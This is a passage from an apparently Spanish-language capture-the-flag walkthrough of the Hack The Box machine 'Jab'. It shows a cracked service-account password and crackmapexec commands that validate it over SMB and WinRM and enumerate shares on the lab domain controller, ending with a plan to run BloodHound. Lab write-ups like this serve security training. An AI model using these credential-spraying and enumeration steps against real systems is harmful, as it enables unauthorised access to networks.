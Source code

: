 Con las credenciales del usuario `svc_openfire` obtenemos el siguiente resultado:  
**Usuario**: `svc_openfire`  
**Contraseña**: `!@#$%^&*(1qazxsw`.

Ahora, necesitamos verificar si estas credenciales siguen en uso. Para hacerlo, utilizamos herramientas como `crackmapexec` o `nxc`. Primero, comprobamos la validez de las credenciales en el servicio SMB:

```zsh
crackmapexec smb 10.10.11.4 -u svc_openfire -p '!@#$%^&*(1qazxsw' 2>/dev/null
```

```
SMB         10.10.11.4      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.4      445    DC01             [+] jab.htb\svc_openfire:!@#$%^&*(1qazxsw
```

Las credenciales son válidas para acceder al servicio SMB, lo que confirma que el usuario está activo. Luego, realizamos la prueba con `winrm` para comprobar si tenemos acceso por este servicio:

```zsh
crackmapexec winrm 10.10.11.4 -u svc_openfire -p '!@#$%^&*(1qazxsw' 2>/dev/null
```

```
SMB         10.10.11.4      5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:jab.htb) 
HTTP        10.10.11.4      5985   DC01             [*] http://10.10.11.4:5985/wsman
WINRM       10.10.11.4      5985   DC01             [-] jab.htb\svc_openfire:!@#$%^&*(1qazxsw
```

Aunque las credenciales son válidas, no tenemos ejecución remota de comandos por `winrm`. A continuación, realizamos un escaneo de los recursos compartidos en la red utilizando `crackmapexec`:

```zsh
crackmapexec smb 10.10.11.4 -u svc_openfire -p '!@#$%^&*(1qazxsw' --shares 2>/dev/null
```

```
SMB         10.10.11.4      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.4      445    DC01             [+] jab.htb\svc_openfire:!@#$%^&*(1qazxsw
SMB         10.10.11.4      445    DC01             [+] Enumerated shares
SMB         10.10.11.4      445    DC01             Share           Permissions     Remark
SMB         10.10.11.4      445    DC01             -----           -----------     ------
SMB         10.10.11.4      445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.4      445    DC01             C$                              Default share
SMB         10.10.11.4      445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.4      445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.11.4      445    DC01             SYSVOL          READ            Logon server share
```

No encontramos nada relevante en los recursos compartidos, por lo que decidimos utilizar **BloodHound** para obtener una visión más clara de la infraestructura. BloodHound generará varios archivos JSON, ya que utiliza una base de datos NoSQL. Es recomendable comprimir estos archivos en un archivo `.zip` para facilitar su manejo.
